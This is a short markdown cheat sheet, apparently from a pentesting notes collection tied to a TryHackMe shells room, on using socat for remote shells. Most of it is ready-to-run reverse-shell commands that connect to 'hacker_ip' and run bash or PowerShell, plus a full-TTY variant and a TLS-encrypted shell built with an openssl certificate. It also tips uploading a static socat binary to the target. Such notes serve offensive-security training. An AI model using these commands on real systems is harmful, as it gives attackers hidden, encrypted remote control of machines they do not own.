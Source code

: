 # socat

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

[Go back](../index.md#remote-shell-)

<div class="row row-cols-lg-2"><div>

socat is a command similar to netcat. Similarely to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.

➡️ Add `-d -d` for debug information.
</div><div>

🔥 On the target, you can upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command/executable is most likely not present.
</div></div>

<hr class="sep-both">

## TCP shell - stdin

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port -
$ socat TCP-LISTEN:port STDOUT # same
```
</div><div>

*Linux/Windows Client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li"
PS> socat TCP:hacker_ip:port EXEC:powershell.exe,pipes
```
</div></div>

<hr class="sep-both">

## TCP shell - tty

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0
```
</div><div>

*Linux client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
</div></div>

<hr class="sep-both">

## Encrypted shell 🔥

<div class="row row-cols-md-2 mt-3"><div>

You first need to generate a certificate:

```ps
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
```
</div><div>

*Linux server*

```shell!
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
```

*Linux client*

```ps
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```
</div></div>